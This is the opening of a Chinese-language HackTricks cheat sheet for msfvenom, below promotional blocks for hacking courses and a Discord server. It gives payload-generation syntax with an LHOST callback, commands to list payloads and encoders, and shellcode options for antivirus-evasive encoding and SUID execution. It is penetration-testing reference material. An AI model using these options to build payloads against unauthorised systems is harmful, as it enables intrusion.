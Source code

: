 # MSFVenom - CheatSheet

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>支持 HackTricks</summary></details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

加入 [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) 服务器，与经验丰富的黑客和漏洞赏金猎人交流！

**黑客见解**\
参与深入探讨黑客的刺激和挑战的内容

**实时黑客新闻**\
通过实时新闻和见解，跟上快速变化的黑客世界

**最新公告**\
了解最新的漏洞赏金启动和重要平台更新

**今天就加入我们的** [**Discord**](https://discord.com/invite/N3FrSbmwdy)，与顶尖黑客开始合作！

***

## 基本 msfvenom

`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

还可以使用 `-a` 指定架构或 `--platform`

## 列表
```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
```
## 创建 shellcode 时的常见参数
```bash
-b "\x00\x0a\x0d"
-f c
-e x86/shikata_ga_nai -i 5
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
## **Windows**
